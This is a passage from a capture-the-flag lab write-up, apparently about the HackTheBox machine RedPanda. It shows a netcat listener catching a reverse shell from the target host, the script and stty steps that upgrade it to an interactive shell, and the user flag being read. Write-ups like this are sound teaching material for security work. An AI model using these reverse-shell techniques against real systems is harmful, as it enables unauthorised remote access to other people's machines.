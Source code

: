 ![image-20221121161909384](https://0xdfimages.gitlab.io/img/image-20221121161909384.png)

On doing that, there’s a connection at my `nc` listener:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.170 45524

```

This is why I always run with `-v`, so it alerts me to the connection, even though no prompt was sent over the session. It still works:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.170 45524
id
uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000(woodenk)

```

I’ll upgrade the shell using `script` and `stty` (explained [here](https://www.youtube.com/watch?v=DqE6DxqJg8Q)):

```

script /dev/null -c bash
Script started, file is /dev/null
woodenk@redpanda:/tmp/hsperfdata_woodenk$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
woodenk@redpanda:/tmp/hsperfdata_woodenk$ 

```

From here I can grab `user.txt`:

```

woodenk@redpanda:~$ cat user.txt
8080a73c************************

```

## Shell as root

### Enumeration
